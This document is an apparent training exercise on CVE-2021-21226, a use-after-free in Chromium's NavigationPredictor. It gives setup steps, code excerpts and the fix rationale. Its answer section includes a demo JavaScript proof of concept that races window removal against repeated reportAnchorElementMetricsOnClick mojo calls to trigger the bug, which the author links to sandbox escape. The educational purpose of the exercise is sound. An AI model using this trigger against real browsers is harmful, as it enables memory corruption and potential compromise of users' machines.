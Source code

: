 # Exercise 1

In LEVEL 1, we can relay on Details and just to search for the func which Details mentioned. It is far away from the real bug hunting scene.

LEVEL 2 we do the same as LEVEL 1 without the help of Details.

But the bug report need Poc to assist developer reproduce the vulnerability, and know exactly what cause this bug. So LEVEL 3 need we construct Poc by ourselves.

## CVE-2021-21226
I sugget you don't search any report about it to prevents get too much info like patch.



### Details

In level 3, we do it without the help of Details


---------

<details>
  <summary>For more info click me! But you'd better not do this</summary>

  https://bugs.chromium.org/p/chromium/issues/detail?id=1197904

</details>

--------

### Set environment

after you fetch chromium
```sh
git reset --hard f65d388c65bafd029be64609eb5e29243376f8ed
```


### Related code
chrome/browser/navigation_predictor/navigation_predictor.cc


### Do it
Do this exercise by yourself, If you find my answer have something wrong, please correct it.


---------

<details>
  <summary>My answer</summary>

  ```c++
  // It is possible for this class to still exist while its WebContents and
  // RenderFrameHost are being destroyed. This can be detected by checking
  // |web_contents()| which will be nullptr if the WebContents has been
  // destroyed.
  ```
  By this comment, we can get if we need do some by `browser_context_` we need check whether web_contents_ alive to provent UAF.

  ```c++
  // This class gathers metrics of anchor elements from both renderer process
// and browser process. Then it uses these metrics to make predictions on what
// are the most likely anchor elements that the user will click.
class NavigationPredictor : public blink::mojom::AnchorElementMetricsHost,
                            public content::WebContentsObserver,
                            public prerender::NoStatePrefetchHandle::Observer {
 public:
  explicit NavigationPredictor(content::WebContents* web_contents);
  ~NavigationPredictor() override;
  // [ ... ]
   private:
  // Used to get keyed services.
  content::BrowserContext* const browser_context_;   // raw ptr
  ```
  > Previously, it was possible for the BrowserContext to be destroyed
  before ReportAnchorElementMetricsOnClick attempted to access it.
  > 
  > The fix uses the fact that NavigationPredictor extends
  WebContentsObserver and checks that web_contents is still alive
  before dereferencing BrowserContext. WebContents will always
  outlive BrowserContext.

  **Poc**
  Because this cve is about mojo and can make sandbox escape, so we need some knowledge about how bind mojo interface. You can read [offical doc](https://chromium.googlesource.com/chromium/src/+/HEAD/mojo/public/js/README.md#interfaces) or other chrome ctf challenge wp(recommend)

  We just need call `ReportAnchorElementMetricsOnClick` after remove window by race.
  ```c++
void NavigationPredictor::ReportAnchorElementMetricsOnClick(
    blink::mojom::AnchorElementMetricsPtr metrics) {
  DCHECK_CALLED_ON_VALID_SEQUENCE(sequence_checker_);
  DCHECK(base::FeatureList::IsEnabled(blink::features::kNavigationPredictor));

  if (browser_context_->IsOffTheRecord())        [1]
    return;

  if (!IsValidMetricFromRenderer(*metrics)) {
    mojo::ReportBadMessage("Bad anchor element metrics: onClick.");
    return;
  }
[ ... ]
  ```
  [1] has no check whether the `browser_context_` has been freed, so we can remove the window then call `ReportAnchorElementMetricsOnClick` to trigger uaf.

  The following code is just a demo, you can get complete code [here](https://bugs.chromium.org/p/chromium/issues/detail?id=1197904)
  ```js
async function poc() {
  // call ReportAnchorElementMetricsOnClick for mulipy
	let win1 = await createWindow({url: "https://localhost:8080/child.html", incognito: true});
  
  // remove the window
	setTimeout(function() {
		removeWindow(win1.id);
	}, 1200);
}

// in child.html
async function posttask() {
    const MAX = 65536;
    for(var i = 0 ; i < MAX; i++){
      // call ReportAnchorElementMetricsOnClick to trigger uaf
        anchor_ptr.reportAnchorElementMetricsOnClick(anchor_elements);
    }
}

setTimeout(function() {
    posttask();
}, 1000);
  ```

  we trigger race by `setTimeout`


</details>

--------
